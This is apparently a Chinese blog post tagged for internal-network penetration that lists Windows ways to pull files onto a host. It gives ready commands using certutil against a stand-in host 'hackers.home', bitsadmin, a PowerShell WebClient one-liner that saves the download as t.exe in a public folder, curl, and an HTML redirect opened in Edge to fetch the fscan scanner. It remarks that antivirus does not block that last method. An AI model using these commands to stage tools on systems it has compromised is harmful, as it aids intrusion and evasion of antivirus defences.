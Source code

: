 ```yaml
---
layout:     post
title:      "windows下载方法"
subtitle:   "主要介绍windows的几个常用的下载方法"
date:       2023-01-29 12:00:00
author:     "cainiao3389"
header-img: "img/post-bg-desk.jpg"
catalog: true
tags:
    - 内网
---
```


## certutil

`certutil.exe -urlcache -split -f "https://hackers.home/badcontent.txt" bad.txt`

---

## bitsadmin

`bitsadmin /transfer n http://example.com/file.zip C:\windows\temp\file.zip`

---

## powershell
```cmd
echo (new-object System.Net.WebClient).DownloadFile('http://example.com/file.zip','c:\users\public\music\t.exe‘) | powershell -
```
---

## curl
`curl -o file.zip http://example.com/file.zip`

---

## html下载（常规操作，杀软根本不拦）

**第一步

要先创建一个test.html，内容如下：
```html
<script>
	window.location.href = "https://github.com/shadow1ng/fscan/releases/download/1.8.2/fscan_darwin_arm64";
</script>
```

**第二步

搜索当前有哪些浏览器，edge，firefox，chrome，ie这几个中ie好像不得行，要实现点击操作。

具体用法如下：
`"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" C:\Users\admin\Desktop\test.html`

会直接下载到当前用户的download目录
